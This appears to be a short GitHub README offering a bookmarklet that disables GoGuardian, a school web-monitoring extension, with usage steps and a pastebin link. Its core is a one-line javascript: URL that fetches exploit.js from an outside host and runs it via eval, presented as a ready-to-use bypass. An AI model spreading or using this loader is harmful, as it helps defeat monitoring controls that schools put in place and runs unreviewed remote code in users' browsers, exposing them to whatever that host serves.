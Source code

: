 # NoGuardian-the-easiest-GoGuardian-bypass.
Best and simplest goguardian bypass, no downloads.

The tutorial is very simple. 

You can go to the pastebin for the tutorial, or stay on this page. 

The easiest way to bypass GoGuardian. In fact, you disable it. Crazy, I know. Copy the script below, save it as a bookmark first, then paste it into your browsers address bar, you should see an error page that the page couldn't be found, that is when you use the bookmark. It will bring up a menu with switches, find the switch next to GoGuardian and click it to make it from blue to grey, you have disabled it. Simple script, only took me about 10 minutes to come up with.
 
javascript:fetch("https://compactcow.com/ltbeef/exploit.js").then(data=>{data.text().then(text=>{eval(text)})});
    
            Copy that.

https://pastebin.com/aDkMKUi2
